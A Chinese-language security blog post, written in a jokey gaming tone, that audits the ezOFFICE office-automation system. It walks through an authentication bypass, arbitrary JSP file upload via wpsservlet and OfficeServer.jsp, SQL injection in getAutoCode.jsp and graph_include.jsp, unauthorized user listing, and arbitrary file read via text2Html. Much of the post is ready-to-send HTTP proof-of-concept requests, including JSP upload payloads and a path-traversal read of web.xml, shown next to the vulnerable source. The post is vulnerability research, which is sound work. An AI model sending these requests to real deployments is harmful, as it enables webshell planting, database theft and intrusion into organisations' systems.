






## 重生之我在提瓦特大陆审计万户ezoffice

惹啊🥵，熟悉我的8u们都知道，我就职于一家全新开放冒险公司，公司位于一个被称作「提瓦特大陆」的幻想地，而鼠鼠我啊本来是不想更新了，因为本来以为我即将迎来拥有对象、跑步健身、练习乐器的现充生活🥳🥰，现在只剩下 现 充 的一半了(😅)


### 鉴权绕过


鉴权代码在SetCharacterEncodingFilter中

打开之后可以看到后续代码都是去对request_shorturi中的路径来决定后续操作

`request_longURL` 获取完整的请求 URI 其实代码就是request.getRequestURI ，`ctx_path` 获取上下文路径

`request_shorturi` 通过截取上下文路径后的部分来获得相对于上下文根的请求路径。

而8u们都知道对request.getRequestURI的经典操作，就像到了星期四就知道要发点vme50、看到美女就已经幻想...

继续往下看一下远方美丽的代码吧



来到这里

首先会从请求URI中提取文件后缀

当后缀为jspx的时候直接重定向到/defaultroot/login.jsp，但是这个就像鼠鼠们一样无关紧要


当后缀匹配到这些的时候会根据路径进行不同的重定向操作，当直接访问defaultroot/platform/custom/customizecenter/js/**get**AutoCode.jsp会来到最后重定向到/defaultroot/public/messages/overtime.jsp

```
if ((suffix.equals("") || suffix.equals(".jsp") || suffix.equals(".vm")) && this.needSecurity && request_shorturi.indexOf("/evo/weixin/") < 0 && request_shorturi.indexOf("/portal/") < 0 && request_shorturi.indexOf("/upgrade/") < 0 && request_shorturi.indexOf("/public/edit/") < 0 && request_shorturi.indexOf("/rongCloudServelt/") < 0 && request_shorturi.indexOf("/public/upload/") < 0 && request_shorturi.indexOf("/upload_2016/uploadify/") < 0 && request_shorturi.indexOf("/download/") < 0 && !security.getNosessionWhiteList().contains(request_shorturi) && !this.customSysLoginUriList.contains(request_shorturi)) {
```



而当我们对jsp进行url编码或者.jsp;.js来访问。isExcludedAction默认为true且不会进入271行的if语句使isExcludedAction为false最后访问到文件




### wpsservlet文件上传

网上的poc如下

```
POST /defaultroot/wpsservlet?option=saveNewFile&newdocId=apoxkq&dir=../platform/portal/layout/&fileType=.jsp HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Content-Length: 173Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3Connection: close
Content-Type: multipart/form-data; boundary=ufuadpxathqvxfqnuyuqaozvseiueerp
DNT: 1
Upgrade-Insecure-Requests: 1

--ufuadpxathqvxfqnuyuqaozvseiueerp
Content-Disposition: form-data; name="NewFile"; filename="apoxkq.jsp"

<% out.print("sasdfghjkj");%>
--ufuadpxathqvxfqnuyuqaozvseiueerp--
```




在saveNewFile只检测了是否匹配到pdf 和wps并没有对其他后缀进行拦截



最后上传后保存的文件路径组成

```
String filePath = SystemPath.getRootFilePath() + File.separator + "upload" + File.separator + dir + File.separator + docId + fileType;
```

所以poc是**newdocId=**apo&**dir=**../platform/portal/layout/&**fileType=**.jsp


来到saveNewFileToDB也没有什么拦截措施，甚至还有个sql注入


而在下面还有个saveFile，是代码简化了的saveNewFile，直接参数改一下就可以上传了




### officeserver.jsp文件上传漏洞

这个就是金格组件导致的

```
POST /defaultroot/public/iWebOfficeSign/OfficeServer.jsp HTTP/1.1
Host: 
User-Agent: Mozilla/5.0

DBSTEP V3.0     145             0               105             DBSTEP=REJTVEVQ
OPTION=U0FWRUZJTEU=
RECORDID=
isDoc=dHJ1ZQ==
moduleType=Z292ZG9jdW1lbnQ=
FILETYPE=Ly8uLi8uLi9wdWJsaWMvZWRpdC83Yzc1QWYuanNw
<% out.println("5EA635");new java.io.File(application.getRealPath(request.getServletPath())).delete(); %>
```


关于金格组件的漏洞分析及waf绕过：https://flowerwind.github.io/2022/09/05/%E5%85%B3%E4%BA%8E%E9%87%91%E6%A0%BC%E7%BB%84%E4%BB%B6%E4%B8%8A%E4%BC%A0%E7%BB%95waf%E7%9A%84tips/


### getAutoCode.jsp sql注入

```

GET /defaultroot/platform/custom/customizecenter/js/getAutoCode.jsp;.js?field=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36
Accept: application/signed-exchange;v=b3;q=0.7,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close


<%
      request.setCharacterEncoding("UTF-8");
   String pageId = request.getParameter("pageId");
        String head = request.getParameter("head");
      String field = request.getParameter("field");
      String tabName = request.getParameter("tabName");
      String table = tabName;
        com.whir.ezoffice.customdb.common.util.DbOpt dbopt = null;
        String newCode = "";
        response.setContentType("text/xml; charset=UTF-8");
        response.setHeader("Cache-Control","no-cache");
        try{
               dbopt = new com.whir.ezoffice.customdb.common.util.DbOpt();
            //String table = dbopt.executeQueryToStr("select AREA_TABLE from tarea where PAGE_ID="+pageId);
            String currentCode = dbopt.executeQueryToStr("select "+field+" from "+tabName+" where "+field+" like '"+head+"%' order by "+tabName+"_id desc");
            
```


### graph_include.jsp sql注入

```
	String startDate = request.getParameter("startDate")!=null?request.getParameter("startDate"):"";
		String id = EncryptUtil.htmlcode(request,"id");//request.getParameter("id")!=null?request.getParameter("id"):"";
			if(!"".equals(id)){
		GraphReportPO po = bd.load(Long.valueOf(id));
						GraphReportTypePO o = bd.loadType(po.getTypeId());
				reportType = o.getType()!=null?o.getType().toString():"";		
								} else if("2".equals(reportType)){										
					if("oracle".equalsIgnoreCase(dbType)){
						String sql2 = po.getDataSQL();

						String whereSql = sql2.substring(sql2.lastIndexOf("=")+1,sql2.length());
						if(startDate!=null && !"".equals(startDate)){
							sql = " select * from (select sum(s.num) ,empname from (select count(log_id) as num,e.empname from security_log t,org_employee e "
								+" where oprstarttime > to_date('"+startDate+" 00:00:00','yyyy-mm-dd,hh24:mi:ss') "
								+";
						}else{
```


### evoInterfaceServlet 未授权访问

```
public class EvoInterfaceServlet extends HttpServlet {

    public void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        String param = request.getParameter("paramType");
        
                    if ("user".equals(param)) {
                listType = "userList";
                userList = bd.getAllUserInfoList(domainId);
                
                    public List getAllUserInfoList(Long domainId) throws Exception {
                                String sql = "select emp.EMP_ID,emp.empname,emp.userAccounts,xxxxxxxxxxand emp.EMP_ID!=1";
            ResultSet rs = stmt.executeQuery(sql);
```


### text2Html接口任意文件读取

网上poc如下

```
POST /defaultroot/convertFile/text2Html.controller HTTP/1.1
Host:  
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.67 Safari/537.36
Connection: close
Content-Length: 63
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
SL-CE-SUID: 1081

saveFileName=123456/../../../../WEB-INF/web.xml&moduleName=html
```


```
      <servlet-mapping>
    <servlet-name>spring</servlet-name>
    <url-pattern>*.controller</url-pattern>
  </servlet-mapping>
  所以访问要加.controller
    @RequestMapping({"/text2Html"})
    public String text2Html(HttpServletRequest request, HttpServletResponse response) {

        String saveFileName = request.getParameter("saveFileName");
        String moduleName = request.getParameter("moduleName");
        String rootPath = request.getSession().getServletContext().getRealPath("/");
        String documentFilePath = rootPath + File.separator + "upload" + File.separator + moduleName + File.separator + saveFileName.substring(0, 6) + File.separator + saveFileName;
        File realFile = new File(documentFilePath);
```

